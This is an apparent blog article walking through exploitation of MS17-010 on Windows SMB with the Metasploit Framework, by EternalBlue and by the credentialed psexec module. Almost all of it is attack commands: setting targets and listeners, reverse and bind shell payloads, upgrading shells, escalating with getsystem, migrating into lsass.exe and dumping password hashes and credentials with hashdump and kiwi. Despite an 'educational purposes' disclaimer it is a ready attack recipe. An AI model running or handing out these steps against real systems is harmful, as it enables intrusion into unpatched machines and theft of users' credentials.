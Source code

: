```yaml
---
title: "Remote Exploit MS17-010"
date: "2021-03-27"
description: "This article serves as a quick reference to exploiting the MS17-010 with the Metasploit Framework. This article is for educational purposes only."
coverimage: Remote_Exploit_MS17010.jpg
tags: kali-linux, metasploit, ms17-010, windows
published: true
posttype: article
---
```

This article demonstrates how to exploit the MS17-010 vulnerability with the `Metasploit Framework`. This article is for educational purposes only.

Two methods are demonstrated; `with` and `without compromised credentials`. This article does not discuss the vulnerability and its background.

# Method 1 - MS17-010 exploitation without credentials: EternalBlue

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_eternalblue` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_eternalblue
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show targets
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

Configure options for your machine with. 

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

A reverse connection is initiated upon successful exploitation.

For `post-exploitation tips`, see step 6 of the below instructions.

# MS17-010 Exploitation - With credentials: PSExec

This example requires credentials to run. This example is done using a domain-joined target.

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_psexec` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_psexec
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show TARGETS
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
set SMBUSER <user>
set SMBPASS <password>
set SMBDOMAIN <domain>
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

For example, to use a smaller `bind` payload (`stageless`), you can choose:

```
set PAYLOAD generic/shell_bind_tcp
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

<h5 class="step">Step 6 - Optional: Post-Exploitation</h5>

If you used a non-meterpreter payload, you can upgrade it to Meterpreter using:

```
CTRL + Z (background session)
use post/multi/manage/shell_to_meterpreter
sessions -l
set session <session id>
set LHOST <your IP>
set LPORT <port of your choice>
exploit
```

<b>Note:</b> You may need to run this a few times to upgrade the shell.

Once you have upgraded your shell, you can escalate your privileges.

```
session -i <meterpreter session>
getsystem
```

To migrate process and dump credentials, use:

```
ps
migrate -N lsass.exe
hashdump
load kiwi
creds_all
```